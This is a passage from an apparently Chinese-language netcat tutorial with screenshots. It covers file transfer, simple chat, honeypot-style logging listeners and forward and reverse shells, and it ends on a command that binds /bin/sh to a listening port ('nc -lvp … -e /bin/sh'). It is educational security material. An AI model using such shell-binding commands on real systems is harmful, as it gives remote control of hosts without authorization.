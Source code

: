 [<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="连接远程系统" width="690" data-original="https://image.3001.net/images/20180415/15237801463466.png!small" />](https://image.3001.net/images/20180415/15237801463466.png)

接收端：

```
`格式：nc   -l  Local_Port  >  Targert_File`
```

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="连接远程系统" width="690" data-original="https://image.3001.net/images/20180415/1523780161714.png!small" />](https://image.3001.net/images/20180415/1523780161714.png)

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="连接远程系统" width="690" data-original="https://image.3001.net/images/20180415/15237801756851.png!small" />](https://image.3001.net/images/20180415/15237801756851.png)

### **简易聊天**

本地主机

命令：nc   -l   8888

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="简易聊天" width="690" data-original="https://image.3001.net/images/20180415/15237804388138.png!small" />](https://image.3001.net/images/20180415/15237804388138.png)

远程主机

命令：nc Targert_IP    Targert_Port

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="简易聊天" width="690" data-original="https://image.3001.net/images/20180415/15237804302203.png!small" />](https://image.3001.net/images/20180415/15237804302203.png)

### 蜜罐

**作为蜜罐使用1：**

命令：nc -L -p  Port

注：使用-L参数可以不停的监听某一个端口，知道Ctrl+C为止

**作为蜜罐使用2：**

命令：nc -L -p  Port >log.txt

**注：**使用-L参数可以不停的监听某一个端口，知道Ctrl+C为止，同时把结果输出到log.txt文件中，如果把>改为>>即追加到文件之后。

这一个命令参数-L在Windows中有，现在的Linux中是没有这个选项的，但是自己可以去找找，这里只是想到了之前的这个使用，所以提出来简单介绍一下！

### 获取shell

简述：获取shell分为两种，一种是正向shell，一种是方向shell。如果客户端连接服务器端，想要获取服务器端的shell，那么称为正向shell，如果是客户端连接服务器，服务器端想要获取客户端的shell，那么称为反向shell

**正向shell**

**本地主机：**

命令：nc   Targert_IP  Targert_Port 

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/1523783797627.png!small" />](https://image.3001.net/images/20180415/1523783797627.png)

**目标主机：**

命令：nc  -lvp  Targert_Port   -e  /bin/sh  

